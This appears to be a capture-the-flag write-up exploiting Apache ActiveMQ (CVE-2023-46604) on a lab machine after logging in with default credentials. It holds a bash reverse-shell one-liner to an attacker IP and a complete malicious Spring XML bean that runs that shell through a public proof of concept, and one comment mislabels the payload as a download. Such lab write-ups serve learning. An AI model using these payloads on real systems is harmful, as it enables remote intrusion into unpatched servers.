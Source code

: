 * Visiting the `$IP` we have a basic HTTP Authentication
* We logged in with default password : `admin:admin`
* The intresting port was `61616/tcp open  apachemq syn-ack ActiveMQ OpenWire transport`which was running activemq openwire transport&#x20;
* This service is vulnerable&#x20;
* Read more :&#x20;

{% embed url="https://www.huntress.com/blog/critical-vulnerability-exploitation-of-apache-activemq-cve-2023-46604" %}
resource 1
{% endembed %}

{% embed url="https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis?referrer=etrblog" %}
resource 2
{% endembed %}

## Exploitation (User)

* payload :&#x20;

```bash
sh -i &gt;&amp; /dev/tcp/10.10.16.10/9999 0&gt;&amp;1
```

* I've used the following POC :&#x20;

[https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

* change `poc-linux.xml` file&#x20;
* Contents of my file&#x20;

```markup
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>sh -i &gt;&amp; /dev/tcp/<YOUR_IP>/9999 0&gt;&amp;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```



* Start a python server with `python -m http.server 8001`
* run the program
